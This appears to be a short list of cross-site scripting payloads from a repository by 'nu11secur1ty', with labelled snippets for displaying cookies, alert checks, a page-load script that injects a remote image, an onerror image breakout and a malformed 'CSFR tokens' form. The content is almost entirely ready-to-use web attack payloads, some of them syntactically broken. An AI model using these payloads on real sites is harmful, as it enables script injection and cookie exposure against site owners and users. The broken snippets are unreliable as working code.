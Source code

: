 ## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("nu11secur1ty_is_here");</script>
```

## Hidden Image
```
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
## Post image
```
<form action="#" method="post"><label for="imgURL">image URL:</label><input type="url" id="imgURL"/><label for="pageURL">page URL:</label><input type="url" id="pageURL"/><button id="imgAdd">add image</button></form>
```
## Error check
```
</span><img src=1 onerror=alert(1) /><span>
```
## CSFR tokens
```
<form action="https:/yourdomain.com/acquire_token.php"></textarea>
```
